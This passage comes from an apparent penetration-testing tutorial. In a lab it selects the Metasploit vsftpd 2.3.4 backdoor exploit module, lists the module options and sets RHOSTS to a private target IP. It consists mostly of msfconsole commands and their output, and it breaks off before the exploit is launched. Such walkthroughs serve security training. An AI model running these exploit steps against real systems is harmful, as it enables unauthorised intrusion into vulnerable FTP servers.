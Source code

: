 ```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

This means you are using this exploit now. Let’s see the options for the exploit:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options
```

```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ‐‐‐‐    ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐


Exploit target:

   Id  Name
   ‐‐  ‐‐‐‐
   0   Automatic
```

Let’s set up the RHOSTS as the target machine’s IP address (192.168.74.129 in my case):

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.74.129
RHOSTS => 192.168.74.129 
```

See the options again:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ‐‐‐‐    ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   RHOSTS  192.168.74.129   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐


Exploit target:

   Id  Name
   ‐‐  ‐‐‐‐
   0   Automatic
```

